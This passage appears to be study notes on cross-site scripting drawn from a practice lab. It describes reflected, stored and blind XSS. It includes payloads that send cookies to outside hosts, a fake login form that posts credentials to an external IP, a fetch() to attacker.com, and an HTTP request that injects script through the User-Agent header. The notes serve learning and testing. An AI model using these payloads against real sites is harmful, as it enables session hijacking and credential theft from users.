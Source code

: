 Example:
````javascript
{% raw %}
https://victim.com/search?q=<script>alert('XSS')</script>
<script>document.body.background+%3d+"http:10.8.25.149/Untilted.jpeg"</script>
<script>document.write(`<h3>Please login to continue</h3><form action="http://10.23.17.164"><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>`);</script></h3> # make a fake login
<img src=x onerror=this.src="http://10.10.14.12:8000/"+btoa(document.cookie)> # Get the cookies 
{% endraw %}
````
If the website includes q directly in the response, the script executes in the victim’s browser.

### Stored XSS
---
The payload is stored permanently in the web application (e.g., in a database) and executed whenever users load the affected page.
Example: An attacker injects `<script>document.cookie</script>`into a comment section. 
Every user who views the comment executes the script unknowingly.

````bash
POST /basket HTTP/1.1
Host: nahamstore.thm
User-Agent: <script>alert(1)</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://nahamstore.thm
Connection: keep-alive
Referer: http://nahamstore.thm/basket
Cookie: session=aa430cef8b8c5ea21400d1ee0be628fa; token=7d85504e8119926564e8a77ee4243519
Upgrade-Insecure-Requests: 1
Priority: u=0, i

address_id=5&card_no=1234123412341234
````

### Blind XSS 
---
Similar to stored XSS, but the payload is triggered in an admin or back-end interface where the attacker doesn’t see the result directly.

Example:

````javascript
<script>fetch('http://attacker.com/steal?data='+document.cookie)</script> in a feedback form, which is later viewed by an admin.
````
